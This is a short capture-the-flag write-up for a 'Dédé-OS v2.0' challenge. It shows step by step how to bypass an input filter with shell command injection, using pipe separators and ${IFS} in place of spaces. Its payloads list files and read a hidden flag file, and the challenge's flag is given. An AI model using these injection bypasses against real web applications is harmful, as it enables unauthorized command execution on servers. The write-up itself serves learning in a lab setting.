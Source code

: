 # Dédé-OS v2.0

### Description

Final boss of the elite H4k3rs, the developer worked well on this more secure version.

Last version of the Dede-OS challenge

### Solution

Remember what I tested in the previous versions :

```bash
# Version 1
$ ;ls -la;

#Version 2
$ ;ls${IFS}-la;
```

Of course thess payloads doesn't work anymore.

However, "I have many strings to my bow" as we say in French.

Instead of using `;` or `&` we can also use : `|`

```bash
$ |ls|

Target achieved
```
Now that we know `|` is not filtered we can try

```bash
$ ||ls||

index.php
style.css
Target achieved
```

The flag seems to be hidden a third time !

The space caracter was filtered in the v2, so I guess it is also here. Let's try to counter that.

```bash
$ ||ls${IFS}-la||

total 20
dr-xr-xr-x    1 root     root          4096 Nov 28 18:42 .
drwxr-xr-x    1 root     root          4096 Dec 11 12:08 ..
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 .secret
-r-xr-xr-x    1 root     root          1353 Nov 28 02:11 index.php
-r-xr-xr-x    1 root     root           778 Nov 28 02:11 style.css
```
There we go :)

Final payload
```bash
$ ||cat${IFS}.secret/2/1/3/flag.txt||
```

Flag : `H2G2{Y0u_4r3_s0_g0oD_4t_h4ck1NG!}`